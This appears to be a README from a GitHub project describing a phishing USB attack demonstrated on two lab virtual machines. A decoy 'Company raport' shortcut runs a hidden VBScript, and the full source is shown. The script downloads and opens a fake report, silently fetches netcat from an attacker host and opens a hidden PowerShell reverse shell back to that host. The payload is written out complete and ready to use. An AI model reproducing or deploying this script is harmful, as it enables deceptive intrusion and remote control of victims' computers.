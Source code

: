 When the Company raport shortcut is clicked, connection is set to download fake raport.txt file and netcat from the attacker. When the downloads are done, raport.txt opens while reverse shell is being cooked in the background.

See it in action: https://www.youtube.com/watch?v=ll4ojo6q-rM

Demo was made using 2 virtual machines:

    Kali Linux
    Windows 10

Structure:
Company raport .lnk -> Linked to revsh.vbs inside hidden payload folder

![efROc8J](https://github.com/therealhalonen/PhishSticks/assets/112076418/54cea3ed-6872-4f69-a483-2e6586fe12f6)
![nor5dNd](https://github.com/therealhalonen/PhishSticks/assets/112076418/8ef95081-a269-4667-8b0f-cf9cfb8eb2a5) 

revsh.vbs:

```vbs
Set objShell = CreateObject("Wscript.Shell")
Set objFSO = CreateObject("Scripting.FileSystemObject")

' Download fake raport
downloadRaport = "powershell -WindowStyle Hidden -Command ""(New-Object System.Net.WebClient).DownloadFile('<ATTACKER IP>/raport.txt', '%TEMP%\raport.txt')"""
objShell.Run downloadRaport, 0, True
    WScript.Sleep 1000  ' Wait for 1 second

' Open raport.txt
openRaport = "cmd /c start """" %TEMP%\raport.txt"
objShell.Run openRaport, 0, True

' Download netcat from attacker ip
downloadCmd = "powershell -WindowStyle Hidden -Command ""(New-Object System.Net.WebClient).DownloadFile('http://<ATTACKER IP>/nc64.exe', '%TEMP%\nc64.exe')"""
objShell.Run downloadCmd, 0, True
WScript.Sleep 2000 ' Wait for 2 seconds initially (adjust this if needed)

' Wait until the file has been downloaded
Do While Not objFSO.FileExists(objShell.ExpandEnvironmentStrings("%TEMP%\nc64.exe"))
    WScript.Sleep 1000  ' Wait for 1 second
Loop

' Start reverse shell
execCmd = "cmd /c powershell -WindowStyle Hidden -Command ""Start-Process \""%TEMP%\nc64.exe\"" -ArgumentList '<ATTACK IP>', '<ATTACKER PORT>', '-e', 'powershell' -WindowStyle Hidden"""
objShell.Run execCmd, 0, True

Set objFSO = Nothing
Set objShell = Nothing
```

Both Virtual Machines were assigned to the same internal network, and the IP-address of the attacker machine was placed as a static in the payload command.


